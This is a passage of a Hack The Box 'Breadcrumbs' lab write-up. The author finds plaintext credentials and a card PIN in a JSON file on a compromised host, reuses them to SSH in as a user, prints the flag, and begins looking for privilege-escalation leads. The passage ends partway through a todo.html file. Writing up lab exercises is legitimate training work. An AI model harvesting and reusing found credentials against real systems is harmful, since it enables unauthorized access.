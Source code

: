 After a little stroll in the directories, I found a "juliette.json".

```sh
C:\Users\www-data\Desktop\xampp\htdocs\portal\pizzaDeliveryUserData>type juliette.json
type juliette.json
{
        "pizza" : "margherita",
        "size" : "large",
        "drink" : "water",
        "card" : "VISA",
        "PIN" : "9890",
        "alternate" : {
                "username" : "juliette",
                "password" : "jUli901./())!",
        }
}
```

Now, ssh with creds.

```sh
?--san1ty@san1ty ~/HackTheBox/Breadcrumbs  
?-?  ssh juliette@10.10.10.228
juliette@10.10.10.228's password:

juliette@BREADCRUMBS C:\Users\juliette>cd Desktop 
cd Desktop

juliette@BREADCRUMBS C:\Users\juliette\Desktop>type user.txt
7d9068841f1d0a2676a97fe7c0dca4cd
```
Get user flag.

## Privilege Escalation

There may be interesting things about "todo.html"

```sh
juliette@BREADCRUMBS C:\Users\juliette\Desktop>type todo.html
<html>                                                     
<style>                                                    
html{                                                      
background:black;                                          
color:orange;                                              
}                                                          
table,th,td{                                               
border:1px solid orange;                                   
padding:1em;                                               
border-collapse:collapse;                                  
}                                                          
</style>                                                   
<table>                                                    
        <tr>                                               
            <th>Task</th>                                  
            <th>Status</th>                                
            <th>Reason</th>                                
        </tr>                                              
        <tr>                                               
            <td>Configure firewall for port 22 and 445</td>
            <td>Not started</td>                           
            <td>Unauthorized access might be possible</td> 
        </tr>                                              
        <tr>
            <td>Migrate passwords from the Microsoft Store Sticky Notes application to our new password manager</td>
            <td>In progress</td>
```